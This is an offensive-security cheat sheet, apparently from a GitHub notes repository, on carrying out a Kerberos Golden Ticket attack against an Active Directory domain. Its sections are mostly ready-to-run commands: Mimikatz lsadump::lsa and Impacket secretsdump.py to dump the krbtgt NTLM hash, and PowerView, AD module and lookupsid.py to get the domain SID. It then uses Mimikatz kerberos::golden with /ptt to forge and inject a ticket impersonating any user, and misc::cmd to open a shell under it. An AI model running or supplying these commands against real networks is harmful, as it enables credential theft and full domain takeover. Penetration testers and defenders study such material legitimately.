


# Golden Ticket Attack

With just a couple pieces of information, you can create a ticket that can be used to impersonate any user across the domain.

## Required pieces of information

1. The name of the user account to impersonate
    * Doesn't have to be a real user account
    * i.e., Administrator
2. The user ID of the user account to impersonate
    * i.e., 500
3. The name of the domain
    * i.e., hydra.test
4. The SID of the domain
    * i.e., S-1-5-21-849420856-2351964222-986696166
5. The NTLM hash of the Kerberos Ticket Granting Ticket (**krbtgt**) account

## (Mimikatz) Obtain domain SID & krbtgt NTLM hash

* Requires domain administrator privileges

Run *lsadump::lsa* against the **krbtgt** account to obtain the domain SID and its NTLM hash.

```powershell
mimikatz: lsadump::lsa /inject /name:krbtgt
```



## (PowerView) Obtain domain SID

```powershell
Get-DomainSID
```

## (Active Directory PowerShell Module) Obtain Domain SID

```powershell
Get-ADDomain
```

## (Impacket) Obtain Domain SID

```bash
lookupsid.py
```

## (Impacket) Obtain krbtgt NTLM

* Requires domain administrator privileges

```bash
secretsdump.py $DNS_DOMAIN_NAME/$USERNAME:$PASSWORD@$DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```

## (Mimikatz) Create and Use the golden ticket

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$DOMAIN_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID /ptt
```



Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```

## [(Impacket) Create and Use the Golden Ticket](https://yojimbosecurity.ninja/golden-ticket-with-impacket/)
